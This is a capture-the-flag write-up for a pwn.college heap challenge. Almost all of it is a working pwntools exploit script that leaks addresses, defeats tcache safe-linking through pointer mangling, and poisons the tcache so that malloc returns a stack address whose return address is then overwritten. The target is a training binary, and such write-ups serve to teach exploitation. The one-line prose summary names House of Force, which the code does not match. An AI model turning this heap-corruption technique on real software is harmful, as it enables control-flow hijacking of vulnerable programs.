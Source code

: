 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 17
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-13 08:10:27 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata house-of-spirit safe-linking 
---
```

## Information
- category: pwn


## Description 
> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up
 House of Force to pivot `malloc` into the stack, and a compact XOR-index → stack pivot trick. Each section is a minimal.

## Exploit
 ```python
from pwn import *

elf = context.binary = ELF("/challenge/babyheap_level17.1")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def quit():
    p.sendline(b"quit")

def exploit():
    p.recvuntil(b"of your allocations is at: ")
    stack = int(p.recvline().strip().split(b".")[0],16)
    log.success(f"stack: {hex(stack)}")

    p.recvuntil(b"main is at: ")
    main = int(p.recvline().strip().split(b".")[0],16)
    log.success(f"main: {hex(main)}")

    malloc(b"0",b"0")
    malloc(b"1",b"0")

    free(b"1")
    free(b"0")

    puts(b"1")

    p.recvuntil(b"Data: ")
    pos = u64(p.recvline().strip().ljust(8,b"\x00"))
    log.success(f"pos: {hex(pos)}")
    
    puts(b"0")

    mangled_ret = pos ^ stack

    scanf(b"0",flat(mangled_ret))

    malloc(b"0",b"0")
    malloc(b"0",b"0")

    scanf(b"0",p64(stack) + p64(stack + 296))

    scanf(b"1",p64(main - 0x151b + 0x1400))

    quit()

    p.interactive()

def main():
    exploit() 

if __name__ == "__main__":
    main()
 ```
